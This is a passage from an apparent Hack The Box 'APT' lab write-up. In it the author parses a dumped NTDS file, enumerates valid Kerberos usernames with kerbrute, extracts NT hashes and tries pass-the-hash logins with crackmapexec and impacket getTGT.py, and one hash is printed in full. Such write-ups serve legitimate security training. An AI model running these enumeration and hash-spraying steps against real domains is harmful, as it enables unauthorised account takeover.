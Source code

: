 ┌──\(zweilos㉿kali\)-\[~/htb/apt\] └─$ awk -F ":" '{print $1}' ntds.dump &gt; users

┌──\(zweilos㉿kali\)-\[~/htb/apt\] └─$ wc -l users 7996 users

```text
I was wrong...there were almost 8000 users!!
```

┌──\(zweilos㉿kali\)-\[~/htb/apt\] └─$ awk -F ":" '{print $1}' ntds.dump \| grep -v "\[\*\]" \| sort \| uniq &gt; users

┌──\(zweilos㉿kali\)-\[~/htb/apt\] └─$ wc -l users  
2004 users

```text
After looking in it a bit, I noticed there were duplicates.  After sorting and pulling out the unique entries there were only...2000 or so left.  Much more manageable, but a lot to go through still.
```

┌──\(zweilos㉿kali\)-\[~/htb/apt\] └─$ kerbrute\_linux\_amd64 userenum --dc apt.htb.local -d htb users 1 ⨯

/ /**\_** **\_**/ / _**\_\_**_ **/ /\_\_** / //_/_  \/ **\_/**  \/ **\_/ / / /** /   _/ ,&lt; / \_\_/ / / /_/ / / / /_/ / /_/ **/ /**_**/\|**_**\|\_**/_/ /_._**/**_**/ \**,_/\_/\__/

Version: v1.0.3 \(9dad6e1\) - 03/29/21 - Ronnie Flathers @ropnop

2021/03/29 21:53:14 &gt; Using KDC\(s\): 2021/03/29 21:53:14 &gt; apt.htb.local:88

2021/03/29 21:53:24 &gt; \[+\] VALID USERNAME: Administrator@htb 2021/03/29 21:54:26 &gt; \[+\] VALID USERNAME: APT$@htb 2021/03/29 22:00:35 &gt; \[+\] VALID USERNAME: henry.vinson@htb 2021/03/29 22:12:34 &gt; Done! Tested 2004 usernames \(3 valid\) in 1159.740 seconds

```text
Using kerbrute I was able to find 3 valid users out of 2000+
```

┌──\(zweilos㉿kali\)-\[~/htb/apt\] └─$ awk -F":" '{print $3,$4}' ntds.dump \| sed 's/ /:/g' &gt; nt\_hashes

```text
Now I needed to find a valid hash. I put all of the hashes in a file by themselves
```

┌──\(zweilos㉿kali\)-\[~/htb/apt\] └─$ crackmapexec smb apt.htb.local -u henry.vinson -H nt\_hashes -d htb

```text
I tried using crackmapexec but it did not come up with any results (not sure if it even did anything...)
```

┌──\(zweilos㉿kali\)-\[~/htb/apt\] └─$ getTGT.py -hashes aad3b435b51404eeaad3b435b51404ee:297f523d69d61de58b690f158f052c1d -dc-ip apt.htb.local htb/henry.vinson Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

Kerberos SessionError: KDC\_ERR\_PREAUTH\_FAILED\(Pre-authentication information was invalid\)

```text
Using GetTGT.py from impacket I was able to check one hash, but there was no way to validate all of the hashes at one time
```
